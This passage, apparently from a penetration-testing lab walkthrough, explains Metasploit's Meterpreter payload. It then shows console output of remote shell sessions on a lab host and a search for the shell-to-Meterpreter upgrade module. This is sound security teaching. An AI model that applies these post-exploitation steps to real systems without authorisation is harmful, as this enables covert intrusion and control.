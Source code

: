 #### What is Meterpreter? <a href="#post-3536-_heading-h.3fwokq0" id="post-3536-_heading-h.3fwokq0"></a>

Meterpreter is a Metasploit payload that gives an interactive shell that attackers may use and execute code on the victim system. It uses in-memory DLL injection to deploy. This allows Meterpreter to be fully deployed in the memory and it does not write anything to the disk. There are no new processes as Meterpreter gets injected into the affected process. It may also move to other operating processes. The forensic footprint of Meterpreter is therefore very small.

#### Upgrade to a meterpreter from shell <a href="#post-3536-_heading-h.1v1yuxt" id="post-3536-_heading-h.1v1yuxt"></a>

Meterpreter is an advanced payload for Metasploit that offers lots of functions after exploiting a system. But if you noticed, we didn’t get any meterpreter sessions from the exploits.

In fact, the exploits did not have an option to set meterpreter as a payload. Let’s learn how to upgrade to meterpreter from a shell. Let’s see the sessions we have at first using the `sessions` command:

```
msf6 auxiliary(scanner/vnc/vnc_login) > sessions
```

```
Active sessions
===============

  Id  Name  Type            Information  Connection
  ‐‐  ‐‐‐‐  ‐‐‐‐            ‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐
  2         shell cmd/unix               0.0.0.0:0 -> 192.168.74.129:6200 (192.168.74.129)
  4         shell cmd/unix               192.168.74.128:4444 -> 192.168.74.129:33209 (192.168.74.129)
```

As you can see, we have two sessions now with id 2 and 4. Both of these sessions are of unix cmd shell type. Now let’s try to upgrade to meterpreter. For this purpose, we’ll be using the `shell to meterpreter` exploit:

```
msf6 auxiliary(scanner/vnc/vnc_login) > search shell to meterpreter upgrade
```

```
Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   ‐  ‐‐‐‐                                          ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐       ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0  post/multi/manage/shell_to_meterpreter                         normal     No     Shell to Meterpreter Upgrade
   1  exploit/windows/local/powershell_cmd_upgrade  1999-01-01       excellent  No     Windows Command Shell Upgrade (Powershell)


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/local/powershell_cmd_upgrade
```
